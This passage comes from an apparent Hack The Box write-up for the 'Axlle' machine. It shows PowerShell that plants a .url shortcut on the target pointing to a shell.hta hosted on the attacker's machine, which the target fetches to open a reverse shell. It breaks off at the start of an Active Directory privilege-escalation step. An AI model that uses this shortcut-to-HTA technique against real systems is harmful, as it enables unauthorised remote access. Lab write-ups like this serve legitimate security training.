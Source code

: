 Now on the target system, we will execute following commands so that it will download shell.hta and create shortcut leading to it:

```powershell
$url = "file://10.10.14.36/share/shell.hta"
$shortcutPath = "C:\inetpub\testing\shell.url"
$shortcutContent = "[InternetShortcut]`r`nURL=$url"
Set-Content -Path $shortcutPath -Value $shortcutContent
```

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/axlle/image-9.png)

After waiting for few seconds, target system downloads shell.hta from our kali machine:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/axlle/image-8.png)

Upon downloading, reverse shell is spawned in few seconds:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/axlle/image-10.png)


## Privesc: dallon to jacob
### Bloodhound

Since this is an Active Directory machine, we will upload and run bloodhound.exe:
